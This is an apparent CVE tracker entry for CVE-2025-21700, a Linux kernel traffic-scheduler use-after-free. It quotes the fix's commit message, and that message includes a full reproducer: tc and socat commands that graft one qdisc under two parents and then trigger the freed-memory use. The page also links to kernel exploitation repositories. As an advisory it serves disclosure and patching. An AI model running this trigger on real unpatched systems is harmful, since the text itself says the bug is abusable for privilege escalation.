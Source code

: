 ### [CVE-2025-21700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-21700)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f41524e886b7f1b8a0c1fc7321cac2%3C%20cd796e269123e1994bfc4e99dd76680ba0946a97%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

In the Linux kernel, the following vulnerability has been resolved:net: sched: Disallow replacing of child qdisc from one parent to anotherLion Ackermann was able to create a UAF which can be abused for privilegeescalation with the following scriptStep 1. create root qdisctc qdisc add dev lo root handle 1:0 drrstep2. a class for packet aggregation do demonstrate uaftc class add dev lo classid 1:1 drrstep3. a class for nestingtc class add dev lo classid 1:2 drrstep4. a class to graft qdisc totc class add dev lo classid 1:3 drrstep5.tc qdisc add dev lo parent 1:1 handle 2:0 plug limit 1024step6.tc qdisc add dev lo parent 1:2 handle 3:0 drrstep7.tc class add dev lo classid 3:1 drrstep 8.tc qdisc add dev lo parent 3:1 handle 4:0 pfifostep 9. Display the class/qdisc layouttc class ls dev lo class drr 1:1 root leaf 2: quantum 64Kb class drr 1:2 root leaf 3: quantum 64Kb class drr 3:1 root leaf 4: quantum 64Kbtc qdisc ls qdisc drr 1: dev lo root refcnt 2 qdisc plug 2: dev lo parent 1:1 qdisc pfifo 4: dev lo parent 3:1 limit 1000p qdisc drr 3: dev lo parent 1:2step10. trigger the bug <=== prevented by this patchtc qdisc replace dev lo parent 1:3 handle 4:0step 11. Redisplay again the qdiscs/classestc class ls dev lo class drr 1:1 root leaf 2: quantum 64Kb class drr 1:2 root leaf 3: quantum 64Kb class drr 1:3 root leaf 4: quantum 64Kb class drr 3:1 root leaf 4: quantum 64Kbtc qdisc ls qdisc drr 1: dev lo root refcnt 2 qdisc plug 2: dev lo parent 1:1 qdisc pfifo 4: dev lo parent 3:1 refcnt 2 limit 1000p qdisc drr 3: dev lo parent 1:2Observe that a) parent for 4:0 does not change despite the replace request.There can only be one parent.  b) refcount has gone up by two for 4:0 andc) both class 1:3 and 3:1 are pointing to it.Step 12.  send one packet to plugecho "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10001))step13.  send one packet to the grafted fifoecho "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10003))step14. lets trigger the uaftc class delete dev lo classid 1:3tc class delete dev lo classid 1:1The semantics of "replace" is for a del/add _on the same node_ and nota delete from one node(3:1) and add to another node (1:3) as in step10.While we could "fix" with a more complex approach there could beconsequences to expectations so the patch takes the preventive approach of"disallow such config".Joint work with Lion Ackermann <nnamrec@gmail.com>

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds
- https://github.com/w4zu/Debian_security
- https://github.com/xairy/linux-kernel-exploitation

